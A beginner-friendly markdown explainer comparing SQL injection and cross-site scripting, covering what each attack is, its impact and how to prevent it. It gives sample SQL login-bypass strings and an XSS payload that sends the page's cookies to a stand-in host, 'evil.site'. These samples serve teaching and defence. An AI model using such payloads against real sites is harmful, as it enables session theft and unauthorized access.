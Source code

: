 # 🛡️ SQL Injection vs XSS — A Beginner-Friendly Security Comparison

| Feature                  | **SQL Injection**                                                                 | **Cross-Site Scripting (XSS)**                                      |
|--------------------------|-----------------------------------------------------------------------------------|---------------------------------------------------------------------|
| **What is it?**          | Attacking the database via user input (e.g., login forms)                        | Injecting malicious JavaScript into a web page                      |
| **Target**               | Database (e.g., MySQL, PostgreSQL)                                                | Browser/Client-side                                                 |
| **Intent**               | Steal data, bypass login, destroy records                                        | Steal cookies, deface pages, run unauthorized scripts               |
| **Example Attack**       | `admin' OR 1=1 --` (bypasses login)                                               | `<script>alert('Hacked')</script>` in a comment box                |
| **Damage Potential**     | Very High – full DB access, data loss                                             | High – session hijack, phishing, or browser control                 |
| **Exploits**             | Weak SQL query construction                                                       | Unsanitized innerHTML or user input rendered into the DOM           |
| **How to Prevent**       | - Use **Prepared Statements** / ORM<br>- Validate inputs<br>- Least DB privilege | - Use **textContent** not innerHTML<br>- Escape input<br>- CSP      |
| **Testing Tools**        | SQLMap, Burp Suite, Manual payload testing                                        | XSS-Scanner, DevTools, Browser Plugins                             |

---

## 🧠 Simple Analogy

**SQLi**: Like giving someone control over the *lock* on your bank vault.  
**XSS**: Like letting someone *write on your website* using your name.

---

## 🧪 Real-World Scenario

**SQL Injection**:  
A login form uses:
```sql
SELECT * FROM users WHERE username = '$input'
```
If input = `admin' --`, it becomes:
```sql
SELECT * FROM users WHERE username = 'admin' --'
```
Which logs the attacker in.

**XSS**:  
A comment section renders user input with:
```html
<div>${userComment}</div>
```
Attacker posts:
```html
<script>fetch('http://evil.site/steal?cookie=' + document.cookie)</script>
```

---

## ✅ Summary

| SQLi                   | XSS                     |
|------------------------|-------------------------|
| Attacks backend (DB)   | Attacks frontend (User) |
| Can destroy data       | Can hijack sessions     |
| Prevent via query control | Prevent via HTML sanitization |
